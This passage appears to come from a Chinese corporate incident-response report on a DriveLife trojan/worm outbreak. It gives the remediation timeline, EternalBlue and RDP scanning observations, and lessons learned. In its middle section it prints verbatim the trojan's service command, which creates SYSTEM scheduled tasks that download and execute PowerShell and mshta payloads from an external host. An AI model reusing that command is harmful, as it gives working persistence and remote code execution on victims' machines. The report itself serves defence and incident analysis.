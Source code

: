 <td valign="top" nowrap width="130">2019-12-03 12：00</td><td colspan="2" valign="top" width="425">上海公司杀毒软件版本完成从6.3.2.8000到6.3.2.8300的升级</td>
<td valign="top" nowrap width="130">2019-12-03 下午</td><td colspan="2" valign="top" width="425">升级后的版本查杀效果部分还是不理想，需要手工再次用专杀工具查杀</td>
<td valign="top" nowrap width="130">2019-12-03 晚上9点</td><td colspan="2" valign="top" width="425">基本完成该病毒的抑制，再次查杀26台左右，网络内未发现类似告警，防火墙上将文件服务器的端口映射取消</td>
<td width="130"></td><td width="4"></td><td width="421"></td>

### 2.  相关处置过程截图

经10.164.1.8 文件服务器日志分析，发现12月2日 4点46分木马服务被安装

[![](https://p3.ssl.qhimg.com/t01f61abe75cb810903.png)](https://p3.ssl.qhimg.com/t01f61abe75cb810903.png)

2019-12-02 4:57总部威胁情报系统收到第一个DNS告警：10.164.1.8 尝试访问驱动人生域名：t.awcna.com 与上一条日志吻合和匹配

2019-12-02 6:48   总部蜜罐系统收到来自10.164.2.15的利用永恒之蓝445端口的漏洞攻击，说明木马已经开始全网扫描，并开始尝试攻击总部数据中心的服务器及数据库。

[![](https://p0.ssl.qhimg.com/t01a01c4fe7f483077f.png)](https://p0.ssl.qhimg.com/t01a01c4fe7f483077f.png)

木马服务示例: BCQWCTRQORNYUISBFDKU（名称会随机生成）

服务文件名: %COMSPEC% /C “netsh.exe firewall add portopening tcp 65529 SDNS&amp;netsh interface portproxy add v4tov4 listenport=65529 connectaddress=1.1.1.1 connectport=53&amp;schtasks /create /ru system /sc MINUTE /mo 10 /tn Rtsa /tr “powershell -nop -ep bypass -c ‘IEX(New-Object System.Net.WebClient).DownloadString(\”http://t.awcna.com/ipc.jsp?h\”)'” /F &amp; echo %%path%%|findstr /i powershell&gt;nul || (setx path “%path%;c:windowssystem32WindowsPowershellv1.0” /m) &amp;schtasks /run /tn Rtsa &amp; ver|findstr “5.[0-9].[0-9][0-9]*” &amp;&amp; (schtasks /create /ru system /sc MINUTE /mo 60 /tn Rtas /tr “mshta [http://t.awcna.com/p.html?_%%COMPUTERNAME%%](http://t.awcna.com/p.html?_%25%25COMPUTERNAME%25%25)“)”

木马服务为防止被删掉，每个小时重复执行下载指令

[![](https://p2.ssl.qhimg.com/t018235578e53c913ac.png)](https://p2.ssl.qhimg.com/t018235578e53c913ac.png)

在总部防火墙上看到的感染终端对总部的3389端口扫描

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01303cbe631e203b32.png)



## 第六部分、经验教训总结

由于终端的安全极大的影响了整个数据中心安全，多个网络安全事件及蠕虫均由终端感染导致，同时IOT设备的蠕虫也逐渐增多，需要加大安全整改力度，确保终端安全。

在此次事件中，我们进行了经验总结如下：

1、 好的实践经验

已经初步构建网络安全纵深防御体系,形成横向到边、纵向到底的立体防御框架。
- 在总部，已经上线了防火墙、DDOS防护设备、WAF等防护设备，同时也上线了流量分析回溯系统，并对接了威胁情报服务；为了有效监控恶意行为及未知的攻击，上线了蜜罐系统，与防火墙和WAF形成良好互补；
- 通过子公司网络规范,落实子公司边界安全防护体系，建成终端安全防御体系，完成全公司4000+终端防病毒软件部署；
- 对集团内网网络进行有效隔离，杜绝内网平坦化，禁止了高危端口445、1433、3389等访问；
- 专项行动:对地区公司进行终端安全扫描及加固；
- 日常监控和督办，在日常工作中，对地区公司感染僵尸、木马、蠕虫的终端进行通报并整改；
2、 存在的不足
